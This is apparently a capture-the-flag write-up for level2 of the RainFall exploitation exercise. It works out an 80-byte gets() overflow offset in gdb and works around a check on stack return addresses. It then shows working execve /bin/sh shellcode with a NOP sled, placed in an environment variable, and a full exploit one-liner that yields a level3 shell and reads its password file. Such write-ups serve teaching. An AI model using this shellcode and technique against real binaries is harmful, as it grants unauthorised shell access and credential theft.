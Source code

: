 Like in level1, there is a call to `gets()`, we have to find the buffer size.

In `p()` we can see :
```
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```
 eax value is at address `ebp-0x4c`, and `seip` is by convention at `ebp+0x04` so we do the maths :
```
>>> 0x04 - (-0x4c)
80
```
The buffer size is `80`
```
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 80 + 'BBBB'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)  info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```
Those two lines after the call to `gets()` are showing a protection against a stack injection, no nop sleds is possible.
```
0x080484fb      and eax, 0xb0000000
0x08048500      cmp eax, 0xb0000000
```
For example, if we try to target an address after the `gets()` like `ret => 0x0804853e` and then go 4 bytes after the original EIP address `info frame` to target the NOP `0xbffff71c + 4 = 0xbffff720`, the program calls `exit`.

If we put our shellcode in an environment variable, we be sure that it's not alterated with the buffer.

take a shellcode:
http://shell-storm.org/shellcode/files/shellcode-827.php

```
export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
the NOP are added to optimize the chance that the ret address points to it so the SHELLCODE will be executed.

Get SHELLCODE var address with exploit then
```
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + [shellcode address] " & cat) | ./level2
whoami
level3
cat /home/user/level3/.pass
```